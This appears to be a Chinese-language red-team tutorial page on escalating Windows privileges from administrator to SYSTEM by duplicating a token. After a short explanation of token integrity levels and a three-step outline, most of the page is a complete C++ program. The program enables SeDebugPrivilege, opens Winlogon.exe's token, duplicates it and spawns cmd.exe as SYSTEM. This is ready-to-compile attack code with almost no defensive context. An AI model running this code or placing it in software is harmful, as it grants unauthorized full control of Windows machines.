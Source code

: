 # 通过复制Token提权到SYSTEM

在windows系统中使用一个较高细粒度的Token来区分和管理权限，我们通常说的system权限administrator权限本质上是令牌的完整性和特权不同，通过细粒度较高的特权进行区分。

在本文中，不会对令牌机制进行详细的剖析，只需要知道它本质上是一个内核对象即可，详细的内容会在以后的内核操作文章中详细讲解。

* 下图分别是medium完整性令牌和high完整性令牌。

![](../.gitbook/assets/image%20%288%29.png)

![](../.gitbook/assets/image%20%2832%29.png)

## 提权流程

1. 打开system权限进程
2. 复制system权限进程Token
3. 使用复制Token打开新进程

## 代码实现

默认配置的管理员拥有SeDebugPrivilege，该权限用于调试进程，是否拥有直接决定你是否能打开写入调试注入如winlogon,system等进程。

```text
#include <windows.h>
#include <iostream>
#include <Lmcons.h>
#include <TlHelp32.h>

BOOL SePrivTokenrivilege(
	HANDLE hToken,          
	LPCTSTR lpszPrivilege, 
	BOOL bEnablePrivilege  
)
{
	LUID luid;

	if (!LookupPrivilegeValue(
		NULL,            
		lpszPrivilege,  
		&luid))       
	{
		return FALSE;
	}

	TOKEN_PRIVILEGES PrivToken;
	PrivToken.PrivilegeCount = 1;
	PrivToken.Privileges[0].Luid = luid;
	if (bEnablePrivilege)
		PrivToken.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	else
		PrivToken.Privileges[0].Attributes = 0;


	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&PrivToken,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		return FALSE;
	}

	return TRUE;
}


DWORD FindProcessPID(const wchar_t* ProcessName) {
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 process = { 0 };
	process.dwSize = sizeof(process);

	if (Process32First(snapshot, &process)) {
		do {
			if (!wcscmp((const wchar_t*)process.szExeFile,(const wchar_t*)ProcessName))
				break;
		} while (Process32Next(snapshot, &process));
	}

	CloseHandle(snapshot);
	return process.th32ProcessID;
}

int main(int argc, char** argv) {
	HANDLE hDpToken = NULL;
	
	

	HANDLE hCurrentToken = NULL;
	BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hCurrentToken);
	SePrivTokenrivilege(hCurrentToken, L"SeDebugPrivilege", TRUE);

	DWORD PID_TO_IMPERSONATE = FindProcessPID(L"Winlogon.exe");
	HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, true, PID_TO_IMPERSONATE);


	HANDLE hToken = NULL;
	BOOL TokenRet = OpenProcessToken(hProcess,
		TOKEN_DUPLICATE |
		TOKEN_ASSIGN_PRIMARY |
		TOKEN_QUERY, &hToken);

	BOOL impersonateUser = ImpersonateLoggedOnUser(hToken);
	if (GetLastError() == NULL)
	{
		RevertToSelf();
	}

	
	BOOL dpToken = DuplicateTokenEx(hToken, 
		TOKEN_ADJUST_DEFAULT |
		TOKEN_ADJUST_SESSIONID |
		TOKEN_QUERY |
		TOKEN_DUPLICATE |
		TOKEN_ASSIGN_PRIMARY,
		NULL,
		SecurityImpersonation,
		TokenPrimary,
		&hDpToken
	);


	STARTUPINFO startupInfo = {0};
	startupInfo.cb = sizeof(STARTUPINFO);
	PROCESS_INFORMATION ProcessInfo = {0};

	BOOL Ret = CreateProcessWithTokenW(hDpToken,
		LOGON_WITH_PROFILE,
		L"C:\\Windows\\System32\\cmd.exe",
		NULL, 0, NULL, NULL,
		&startupInfo,
		&ProcessInfo);


	return TRUE;
}
```

## LINKS

{% embed url="https://docs.microsoft.com/zh-cn/azure/active-directory/develop/access-tokens" %}



